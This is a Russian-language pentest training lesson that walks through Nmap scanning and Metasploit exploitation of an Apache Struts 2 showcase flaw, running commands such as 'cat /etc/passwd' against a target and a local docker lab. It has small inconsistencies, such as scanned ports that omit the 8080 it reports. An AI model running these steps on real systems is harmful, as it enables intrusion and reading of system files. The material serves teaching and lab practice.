

## Типовые проблемы сетевых сервисов:
- Проблемы конфигурации
- Слабые пароли
- Неиспользование шифрования
- Известные уязвимости

## Разбор базового примера
### Уязвимость, которая может быть найдена в публичном сетевом сервисе заказчика
#### Ход действий

1. Проведем сканирование узла evil.corp, используя Nmap: отключим ping-сканирование с помощью опции -Pn, выведем только открытые порты с помощью опции --open и определим версии сервисом с помощью опции -sV:  
```
$ nmap -sT -Pn -p 21,22,23,80,445 -sV --open -v evil.corp
```  

2. Видим в выводе порт 8080 с http-сервисом. Откроем его в браузере.

3. Изучим это приложение, определим, что это Struts 2 с стандартной страницей showcase, демонстрирующей возможности этого фреймворка. Попытаемся найти известные уязвимости для этого сервиса с помощью Metasploit Framework:
```
$ msfconsole

msf6> search apache struts2 showcase
```

4. Воспользуемся эксплойтом:
```
msf6> exploit/multi/http/struts2_code_exec_showcase
```

5. Изучим эксплойт и его настройки:
```
msf6> info
msf6> options
```

7. Настроим эксплойт:
```
msf6> set RHOSTS evil.corp
```

8. С помощью браузера подберем значение для опции `TARGETURI`; так как стандартный путь не работает – проверим `TARGETURI` `/integration/saveGangster.action` и убедимся, что он работает:
```
msf6> set TARGETURI /integration/saveGangster.action
```
9. Подготовим полезную нагрузку для выполнения произвольных команд:
```
msf6> set PAYLOAD cmd/unix/generic
msf6> set CMD id
```

10. Запустим эксплойт и убедимся, что у нас есть права root:
```
msf6> run
```

11. Поменяем команду:
```
msf6> set CMD cat /etc/passwd
msf6> run
```

### Поиск известных уязвимостей для данной версии ПО:
- [База знаний Common Vulnerabilities and Exposures](https://cve.mitre.org/)
- [Платформа Vulners](https://vulners.com/)
- [База данных эксплойтов от Offensive Security](https://www.exploit-db.com/)
- [Платформа управления уязвимостями и анализа угроз](https://vuldb.com/)

## Эксплуатация уязвимости при помощи фреймворка

Настройка Metasploit из примера вначале
Команды настройки msfconsole для (CVE-2017-9791)(Команды bash):

Console:
```
msfconsole <- Запуск фреймворка

search struts showcase  <- Поиск всех возможных эксплойтов с содержимым строки “struts showcase”

use exploit/multi/http/struts2_code_exec_showcase <- Выбор эксплойта для работы последующей настройки

info <- Изучение информации об эксплойте

options <- Демонстрация опций для настройки эксплойта

set RHOSTS localhost <- Настройка узла для применения эксплойта

set RPORT 1337 <- Настройка порта для применения эксплойта

set TARGETURI /integration/saveGangster.action <- Настройка места нахождения уязвимого плагина на сайте

set PAYLOAD cmd/unix/generic <- Настройка “нагрузки” исполняемой после применения эксплойта

set CMD 'cat /flag' <- Настройка опций нагрузки (Указание команды, которую необходимо выполнить)

check <- Использование “чекера” для проверки корректности настроенного эксплойта

exploit <- Эксплуатация уязвимости
```

Поднять стенд самостоятельно можно командой docker:  
```
docker run -it --rm -p 1337:8080 --name struts piesecurity/apache-struts2-cve-2017-5638
```

## Дополнительные материалы

Практика:

- [revshells](https://www.revshells.com/)
- [tryhackme](https://tryhackme.com/room/metasploitintro)
- [Знакомство с метасплоит и документация](https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/)
- [Краткий курс об особенностях и деталях метасплоит от разработчиков](https://www.offensive-security.com/metasploit-unleashed/)
- [Практика сборки и исследования уязвимых стендов](https://github.com/vulhub/vulhub)
- [Задачи на эксплуатацию уязвимостей разного рода](https://www.vulnhub.com/)

Теория:
- [Nmap гайд](https://nmap.org/book/man.html)

CheatSheets:
- [Nmap все команды и флаги на 2023 г.](https://www.stationx.net/nmap-cheat-sheet/)

Хакерские инструменты:
